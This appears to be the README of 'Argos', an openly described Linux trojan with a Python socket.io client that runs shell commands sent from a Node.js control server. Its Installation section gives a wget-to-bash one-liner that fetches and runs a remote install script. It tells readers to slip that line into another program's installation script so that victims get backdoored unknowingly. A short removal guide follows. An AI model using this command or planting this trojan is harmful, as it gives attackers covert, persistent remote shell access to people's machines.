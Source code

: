 # Argos

*Can see everything, beware of its omniscience, kneel before its greatness.*

⚠️ *Do not use for illegal purposes*

*THIS PROJECT IS IN PROGRESS.It FUNCTIONNAL but it's not as securised as it should be*
## Summary

- [**Presentation**](#presentation)
- [**Installation**](#installation)
- [**Removing**](#removing)
- [**Credits**](#credits)

## Presentation

#### Main goal

This program work on **Linux** distrubtion.

The main goal of this project is to show how frighteningly easy it is to create a program that can access to another machine.
This project is a [**trojan**](https://us.norton.com/internetsecurity-malware-what-is-a-trojan.html) that, when used in an installation script, can easily be installed and gain access to the whole system.

#### How it works

There is 2 main parts to this project:
- The online server
- The client

#### Client side

Get to the client part
```bash
cd client/
```

The client side program is made using [**python3**](https://www.python.org/downloads/) and can easily be called in the installation script of another program by using a simple curl command.

The client side is using [**socket io**](https://socket.io/fr/) to connect with the server through web sockets.
In case the server is not running, the program will try every 3 seconds to connect to the server until it's connected.

Once connected, the client script is waiting for instructions from the server.
The instruction it can get are mostly commands. In order to run the commands, it's using a child process that is running a shell, writing in it's stdin using the file descriptor obtained through the pty.spawn command.

Once the child process is done running a command, it send a ALRM signal to its ppid so we can get the output of the command.

#### Server side

Get to the server part:
```bash
cd online_server
```
Front:
```bash
cd frontend
```
Backend:
```bash
cd server
```
The server is made in [**Node js**](https://nodejs.org/en/download/).
The backend is composed of 2 server :
- A [**socker io**](https://socket.io/fr/get-started/chat) server
- A [**express JS**](https://expressjs.com/fr/) server

The *express JS* server is meant to received the requests from the frontend server.
Here are the routes of that server.
| Route | Protected using JWT |
|-------|---------------------|
|/login | NO |
|/services/:id| YES |
|/services/:id/shell| YES|

The socket server accept sockets and stock them in a global variable so the connexion can be used later on.
The sockets are listenning to events and so we are using that so in case of deconnexion with a client, the client will automaticly be remove from the list.

The /shell endpoint use the socket io server sending a command to the client and waiting for a response to send back the information to the frontend.

FrontEnd endpoints:
| Endpoint | Protected |
|----------|-----------|
|/login    | NO        |
|/clients  | YES       |
|/services/:id| YES    |
|/services/:id/shell| YES |

## Installation

In order to use the project, you need to have a script that people will run.

In this very script, you juste have to call this command (remember to replace the 'Adress of the online server' by your server adress) :
```bash
wget -q -O - https://raw.githubusercontent.com/Just1truc/Argos/main/client/install_argos > here && chmod 777 here && bash here "Adress of the online server" && rm here
```
Once this command has been run, everthing should be ready for the client.

Also, to setup the server, it's kinda more complicated.
You have to host both the [**front**](https://github.com/Just1truc/Argos/blob/main/online_server/frontend/README.md) and the [**backend**](https://github.com/Just1truc/Argos/tree/main/online_server/server/README.md).

## Removing

This trojan is pretty annoying right? So let's remove it from your computer !
To do so, you just need to first execute this command to get rid of the cronjob :
```bash
crontab -r
```

Then, you need to cut the access to your computer, so let's kill the script doing that:
if you don't have ``htop``, you may have to install it.
```bash
htop -F python
```
Then, keep the pid of the command that is using *python3* to run and kill it:
```bash
kill [pid]
```


## Credits:

#### Client side && Backend developper : Justin Duc

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/justin-duc-51b09b225/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/Just1truc)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:justin.duc@epitech.eu)

#### Frontend Developper : Baptiste Leroyer

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/baptiste-leroyer-a69894227/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/ZiplEix)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:baptiste.leroyer@epitech.eu)

#### DevOps Developper : Leo Dubosclard

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://linkedin.com/in/leo-dubosclard)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/ZerLock)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:leo.dubosclard@epitech.eu)

#### Frontend Developper : Joshua Brionne

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/joshua-brionne/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/izimio)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:joshua.brionne@epitech.eu)

#### Frontend Developper : Paul laban

[![linkeding bage](https://img.shields.io/badge/-linkedin-0A66C2?logo=linkedin&style=for-the-badge)](https://www.linkedin.com/in/paul-laban-5b190b227/)
[![git hub bage](https://img.shields.io/badge/-GitHub-181717?logo=GitHub&style=for-the-badge)](https://github.com/501stEcho)
[![mail](https://img.shields.io/badge/-Mail-0078D4?logo=Microsoft-Outlook&style=for-the-badge)](mailto:paul.laban@epitech.eu)
